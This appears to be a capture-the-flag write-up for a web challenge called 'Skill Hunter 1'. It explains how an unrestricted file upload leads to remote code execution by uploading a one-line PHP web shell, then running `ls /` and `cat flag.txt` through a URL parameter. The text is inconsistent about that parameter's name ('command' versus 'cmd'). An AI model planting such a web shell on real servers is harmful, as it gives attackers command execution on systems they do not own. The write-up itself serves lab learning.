

# SKILL HUNTER 1

## Write-up

first when we visit the website we can see the upload functionality as the main and only functionality in the website . need a hint? `click here` will lead you to the hint page . There you will discover leet words saying `upload vulnerability` if you search with these words on google you will discover various exploits of the upload functionality. one of these exploit is to get a remote code execution `rce`. One of the great website that explain web exploitation is 'portswigger' there you will find a section talking about this explotation as its showen in the img 

## Exploit
 as showen in the img above the structure of our exploit will be as follow 
1. Upload a file with the extention `.php` with following content 
```php 
<?php echo system($_GET['command']); ?>
```
2. Once the file uploaded we get the answer from the server indicating its path, click on it and it will open the file for us 

an error will pop on the screen telling you that the request is messing the parameter `command` 
you only need to add `?command={your command} ` in the url to pass it as parameter to get passed to your php code and get executed
 
pass any command in `cmd` URL parameter and the command gets excuted


list the files using `ls /` to find the `flag.txt` within the root directory
then read it with `cat flag.txt` and you will get the FLAG!!